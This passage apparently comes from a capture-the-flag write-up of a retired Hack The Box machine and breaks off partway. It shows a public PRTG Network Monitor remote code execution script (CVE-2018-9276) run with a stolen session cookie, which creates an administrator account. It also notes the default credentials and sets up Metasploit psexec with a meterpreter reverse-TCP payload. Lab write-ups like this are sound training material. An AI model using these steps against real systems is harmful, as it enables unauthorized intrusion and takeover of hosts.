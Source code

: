 The searchsploit exploit failed, so I went to the source.  https://raw.githubusercontent.com/M4LV0/PRTG-Network-Monitor-RCE/master/prtg-exploit.sh

{% highlight bash %}
┌[ ~/hackthebox/boxes/retired/10.10.10.152 ] [master ?]
└─> root@kali # ./prtg-exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.1688042001.1581032395; _gid=GA1.4.712639071.1581032395; OCTOPUS1813713946=ezUzOEQ2NjNGLUJEQzgtNDlFQS05MDI3LTU5RUQ4QzQ0REFFRX0%3D"

[+]#########################################################################[+]
[*] PRTG RCE script by M4LV0                                                [*]
[+]#########################################################################[+]
[*] https://github.com/M4LV0                                                [*]
[+]#########################################################################[+]
[*] Authenticated PRTG network Monitor remote code execution  CVE-2018-9276 [*]
[+]#########################################################################[+]

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and add it to the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'

[+]#########################################################################[+]

 [*] file created
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st'
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!

┌[ ~/hackthebox/boxes/retired/10.10.10.152 ] [master ?]
└─> root@kali #
{% endhighlight %}

User created `pentest:P3nT3st!`.  Time to get our shellz and root.txt flag.

{% highlight bash %}
msf5 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                10.10.10.152     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass               P3nT3st!         no        The password for the specified username
   SMBUser               pentest          no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)